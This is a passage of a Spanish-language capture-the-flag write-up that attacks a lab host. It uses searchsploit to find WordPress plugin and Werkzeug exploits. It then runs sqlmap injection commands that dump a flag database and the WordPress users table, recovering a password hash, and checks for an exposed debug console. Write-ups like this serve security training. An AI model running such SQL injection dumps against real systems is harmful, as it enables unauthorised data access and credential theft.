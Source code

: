 Vamos a ver si es posible explotar este vector:
```
searchsploit -x php/webapps/50766.py
```
![Image](Pasted%20image%2020220521120925.png?raw=true)
Vemos que hay un exploit creado el 18 de Febrero de este mismo año.
En el exploit se utiliza `sqlmap` para extraer y sonsacar la información de la base de datos. Analizándolo y adaptándolo a nuestro caso he preferido ejecutar directamente `sqlmap` en lugar de el script.

Para obtener el contenido de la base de datos "flag" ejecutamos con sqlmap:
```
sqlmap "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --columns -D flag -T flag --force-ssl --threads 10 --dump
```


Ahora vamos a intentar sacar los credenciales del usuario de wordpress dentro directamente de la base de datos:
`sqlmap "[https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1](https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1 "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1") *" --columns -D wordpress -T wp_users --force-ssl --threads 10 --dump`
![Image](Pasted%20image%2020220521164143.png?raw=true)
Esto nos devuelve un hash, el problema es que no hemos podido romper dicho hash con las _rainbow tables_ de las que disponemos.
![Image](Pasted%20image%2020220521165710.png?raw=true)

Ahora lo que nos queda por probar es si podemos obtener los usuarios de la propia base de datos MySQL para logearnos directamente, ya que el sevicio está expuesto (cosa que no debería estar).


## FLAG 3 - API_FLAG{Never_public_your_secret}
**5000/tcp - upnp?**
Ya en nmap obtenemos la siguiente información:
```text
(base) ┌──(kali㉿kali)-[~/Desktop/Hackathon]
└─$ whatweb http://geohome.com:5000                                                                                                                                 255 ⨯
http://geohome.com:5000 [200 OK] Country[RESERVED][ZZ], HTTPServer[Werkzeug/2.1.2 Python/3.7.0], IP[172.16.54.182], Python[3.7.0], Werkzeug[2.1.2]

```


>Server: Werkzeug/2.1.2 Python/3.7.0
![Image](Pasted%20image%2020220521141828.png?raw=true)
`searchsploit -x multiple/remote/43905.py`

Analizando el script podemos comprobar si este servicio tiene la consola de debugeo activada con la url:
`http://geohome.com:5000/console`
Pero no es el caso.
